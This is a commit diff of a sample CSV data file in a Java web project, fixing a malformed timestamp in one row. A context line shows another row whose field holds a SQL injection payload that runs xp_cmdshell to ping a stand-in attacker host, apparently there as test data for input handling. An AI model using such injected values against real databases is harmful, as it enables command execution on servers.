

Before and after one commit to MML9796/Acme-Starters-B, a CSV file: src/main/resources/WEB-INF/data/sample/batch-01/project.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/src/main/resources/WEB-INF/data/sample/batch-01/project.csv
+++ b/src/main/resources/WEB-INF/data/sample/batch-01/project.csv
@@ -49,3 +49,3 @@ project-43,example,example,'; EXEC xp_cmdshell('ping attacker.com');--,2025/09/0
 # moments,"","","","","","",""
-project-44,example,example,example,2025/01/01 00:012025/01/01 00:01,2026/01/01 00:01,true,manager-01
+project-44,example,example,example,2025/01/01 00:01,2026/01/01 00:01,true,manager-01
 project-45,example,example,example,2200/12/31 23:58,2200/12/31 23:59,true,manager-01
```
Also changed, not shown: src/main/resources/WEB-INF/data/sample/batch-01/campaign.csv, src/main/resources/WEB-INF/data/sample/batch-01/invention.csv, 6 other files.
